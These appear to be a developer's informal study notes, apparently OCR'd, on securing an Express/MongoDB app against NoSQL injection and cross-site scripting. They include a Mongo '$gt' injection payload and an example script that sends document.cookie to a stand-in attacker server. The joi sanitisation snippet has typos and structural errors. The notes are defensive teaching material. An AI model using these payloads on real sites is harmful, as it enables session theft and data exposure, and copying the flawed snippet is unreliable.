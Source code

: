 - npm install bs-custom-file-input



-------------------- Security issues 

------------ Mongo injection

= let's say there is an input which take username, and it find a certain user in database.
    db.users.find({username: req.body.username});

Now if in that input, user enter something malicious like
    {'$gt': ""} 
    result to:
    db.users.find({username: {'$gt': '' }});
    this will basically retrive all the user from database as the query meany
    find all user which is greater than empty

So to avoid above possible cases we should restrict user from entering any such characters.

Fo this we will use package called:
- npm i express-mongo-sanitize


it basically removes any query that has dollar sign or period, from params or body

const mongoSanitize = require('express-mongo-sanitize');
app.use(mongoSanitize());


--------------Cross-site scripting

it basically enables injecting client side scripts into web page.

one possible scenario would be , an attacker would write the malicious script
inside the input box and if our code reads it as html then the malicious code will execute

So, we have to take care of that.

eg.

<script>new Image().src="mybadserver/hacker?output="document.cookie;</script>
whe
n we set src on image , browser sends a request to that source, so in this case if
any attacker manages to inject the above script then he would get the cookie information delivered to the his website
which is in the src attribute of image.

we will us joi which  will escape any script or html , if user enter in input

- joi allows us to define extensions and we can use these extensions on out schema like .string().mycustomextension()

e.g.,

const extension = (joi) => {
    type: 'string',
    base: joi.string(),
    message: {
        'string.escapeHTML': '{{#label}} must not include HTML!'
    },
    rules: {
        escapeHTML: {
            calidate(value, helpers) {
                const clean = sanitizeHtml(value, {
                    allowedTags: [],
                    allowedAttributes: {},
                });
                if(clean !== value) return helpers.error('string.escapeHTML', { value })
                return clean;
            }
        }
    }